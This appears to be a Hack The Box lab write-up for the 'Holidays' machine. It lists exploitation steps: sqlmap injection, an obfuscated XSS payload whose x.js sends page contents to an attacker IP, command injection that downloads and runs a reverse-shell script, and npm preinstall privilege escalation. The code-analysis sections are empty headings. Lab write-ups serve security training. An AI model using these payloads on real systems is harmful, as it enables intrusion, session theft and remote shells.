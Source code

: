 ```yaml
---
layout: post
title:  "Hack The Box - Holidays - Source Code Analysis"
date:   2021-10-17 13:00:10 +0200
tags: ["Hack The Box","OSWE"]
---
```


# Introduction
The hack the box machine "Holidays is a hard machine with requires knowledge in the areas of User-Agent filters, SQL injections, XSS filter evasion, command injection and NPM packages.

![HolidayCard](/assets/2021-10-17-HTB-Holidays-Source-Code-Analysis/card.png)

In this post, we study the coding mistakes behind the vulnerabilites and how to remediate them.

The next two sections covers expliotation process and a code analysis to identify the vulnerabilites. Feel free to skip the next section if you already know how to exploit this Hack The Box machine.

# Overview of Exploitation
The first step

Capture login post request to http://10.10.10.25:8000/login in burp, change user-agent to “Linux” and press “copy to file” > linux.req              #Routing is different depending on user-agent
sqlmap -r linux.req --level=5 --risk=3 -T users --dump -threads 10
We get RickA:fdc8cd4cff2c19e0d1022e78481ddf36:nevergonnagiveyouup           (cracked with crackstation)
Log in to http://10.10.10.25:8000/login

genPayload.py
{% highlight python linenos %}
payload = """document.write('<script src="http://10.10.14.25/x.js"></script>')"""
nums = [str(ord(i)) for i in payload]
print('<img src="x/><script>eval(String.fromCharCode('+','.join(nums)+'));</script>">')
{% endhighlight %}

x.js
{% highlight Javascript linenos %}
req1 = new XMLHttpRequest();
req1.open("GET","http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65",false);
req1.send();
req2 = new XMLHttpRequest();
req2.open("GET","http://10.10.14.25/leak?x="+btoa(req1.responseText),false);
req2.send();
{% endhighlight %}

Sudo python3 -m 80
python3 genPayload.py | xclip -selection clipboard
Post a comment with the clipboard content
Wait 1 minutes. Then, copy the base64 content from the web server output and put in x.b64
cat x.b64 | base64 -d > x.html
Get the cookie value from x.html    (connect.sid&#x3D;s%3A0c2b6ab0-2905-11ec-93c0-9b5646fb6973.5woc5mpM%2F9dn5RN9MmvdvDeOtDts1f423a6mkfALt70)
Add the cookie in the browser and go to http://10.10.10.25:8000/admin

sudo rlwrap nc -lvnp 443
nano rs
GET /admin/export?table=x%26wget+168431129/rs
GET /admin/export?table=x%26bash+rs

The privilege escalation can be performed by abusing sudo rights on npm. As can be seen by using `sudo -l`, we can install arbitrary NPM packages with root privileges. This could be dangerous as it is possible install an NPM package which runs code before the installation process begins. By x, it is possible to run arbitrary code. This can be done by creating a custom node package module. For this, we can use the template (rimrafall github) which contains a folder named "rimrafall" with a package.JSON file. We modify the package.json file to look as below and leave the index.js file as it is.


Note that preinstall is executed when we run npm install. In fact these scripts are executed:
https://docs.npmjs.com/cli/v7/using-npm/scripts#npm-install

(package.json)

Package.json 
https://docs.npmjs.com/cli/v7/configuring-npm/package-json#name


(index.js)

Next, we start a listner on a free port, in this example we chose port 9999.

sudo npm i rimrafall to attempt to install the custom node module as a root user, triggering the execution of our reverse shell payload.



# Code analysis
## User-Agent filtering

## SQL Injection Vulnerability

## XSS Vulnerability

## Command injection vulnerability




